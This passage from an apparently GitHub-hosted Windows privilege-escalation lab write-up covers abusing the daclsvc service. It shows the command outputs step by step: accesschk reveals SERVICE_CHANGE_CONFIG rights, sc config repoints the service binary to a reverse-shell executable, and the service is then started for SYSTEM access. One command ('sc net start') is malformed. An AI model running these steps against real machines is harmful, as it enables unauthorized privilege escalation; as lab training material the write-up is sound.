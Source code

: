 <p>3.1. What is the original BINARY_PATH_NAME of the daclsvc service?<br>
<code>C:\Program Files\DACL Service\daclservice.exe</code></p>


```bash
C:\PrivEsc>accesschk.exe /accepteula -uwcqv user daclsvc
RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL

C:\PrivEsc>
```

<p align="center"><img width="1200px" src="https://github.com/user-attachments/assets/5f12f1d5-a431-404e-9afa-b5ad72ab6c4b"></p>

<br>

```bash
C:\PrivEsc>sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\PrivEsc>
```

```bash
C:\PrivEsc>sc config daclsvc binpath="\"C:\PrivEsc\reverse.exe\""
[SC] ChangeServiceConfig SUCCESS

C:\PrivEsc>
```

```bash
C:\PrivEsc>sc net start daclsvc
```

<p align="center"><img width="1200px" src="https://github.com/user-attachments/assets/fcfaa6e6-90f1-4bd3-8c0a-1a9e3f18cfb4"></p>

<br>
<h2>Task 4 . 𝗦𝗲𝗿𝘃𝗶𝗰𝗲 𝗘𝘅𝗽𝗹𝗼𝗶𝘁𝘀 - Unquoted Service Path<a id='4'></a></h2>
<p>Query the "unquotedsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME) and that the BINARY_PATH_NAME is unquoted and contains spaces.<br>
